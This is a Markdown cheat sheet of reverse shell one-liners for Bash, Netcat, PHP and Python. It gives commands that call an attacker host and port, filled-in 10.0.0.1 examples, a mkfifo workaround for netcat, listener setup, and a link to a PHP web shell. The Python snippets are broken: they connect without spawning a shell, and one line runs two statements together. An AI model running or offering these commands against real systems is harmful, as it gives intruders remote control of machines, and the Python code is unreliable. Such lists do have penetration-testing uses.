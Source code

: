 # REVERSE SHELL 🐢

### Table of Contents 
   1. Bash 
   2. Netcat 
   3. PHP 
   4. Python 

## 1) Bash
```Bash_Bash
bash -i >& /dev/tcp/<IP_TO_CONNECT_TO>/<PORT> 0>&1

# Example:
  bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
+ Make sure to have `netcat` listening on local machine
 - `nc -nlvp PORT`
 - Example: `nc -nlvp 8080`

-----------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
## 2) Netcat
+ Netcat is **rarely present on production systems**
 - _Even if it is_ there are _several versions_ of netcat that **don’t support the -e** option
```Basic_Netcat
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```Last_Ditch_Netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_TO_CONNECT_TO> <PORT> >/tmp/f

Example:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

-----------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
## 3) PHP

```Basic_PHP
php -r '$sock=fsockopen("<IP_TO_CONNECT_TO>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

# Example:
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
+ This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

+ If you want a .php file to upload, see the more featureful and robust php-reverse-shell:
[More robust PHP Shell]: https://pentestmonkey.net/tools/web-shells/php-reverse-shell

-----------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
## 4) PYTHON

```Tested_On_Python2_(swap_out_IP_and_Port)
# Command Line Version / Cmd Line Version
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))'

# Code Version
import socket,subprocess,os s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234))
```

-----------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +

